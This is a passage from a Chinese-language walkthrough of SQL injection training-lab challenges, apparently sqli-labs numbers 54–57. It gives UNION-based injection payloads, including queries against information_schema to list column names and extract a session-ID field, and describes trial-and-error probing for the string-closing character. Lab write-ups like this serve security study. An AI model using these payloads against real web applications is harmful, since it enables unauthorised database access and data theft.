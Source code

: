 
查段

```
0' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='5gp3nwnqh6' --+
```
![image](https://user-images.githubusercontent.com/76896357/115131554-85936780-a02b-11eb-95ec-d30b78236931.png)

* 查字段内容
```
?id=0%27%20union%20select%201,2,sessid%20from%20challenges.5gp3nwnqh6%20--+
```

![image](https://user-images.githubusercontent.com/76896357/115131589-bd021400-a02b-11eb-9135-e6da3895ede0.png)

## 55. 基于小括号的挑战

那啥这道题试上几十次就可以了，发现是)闭合

* 查字段内容

```
?id=0)%20union%20select%201,2,sessid%20from%20challenges.5gp3nwnqh6%20--+
```

![image](https://user-images.githubusercontent.com/76896357/115131608-e622a480-a02b-11eb-8881-a019b0757c50.png)


然后就随便了。。。

## 56. ')挑战
* 寻找闭合方式看看有没有回显
```
?id=1') --+
```
![image](https://user-images.githubusercontent.com/76896357/115131735-f8e9a900-a02c-11eb-8e77-c5ee46eb2bb0.png)

```
?id=0') union select 1,2,3 --+
```
![image](https://user-images.githubusercontent.com/76896357/115131770-29314780-a02d-11eb-8400-4af1d307644a.png)


过了。。。

## 57. 基于“”的挑战

* 找寻闭合方式

尝试了几次，发现‘，’),"都可以，但是，“)不行

![image](https://user-images.githubusercontent.com/76896357/115131821-a5c42600-a02d-11eb-8b85-87e2cd0876b6.png)

说明，闭合方式就有可能是",
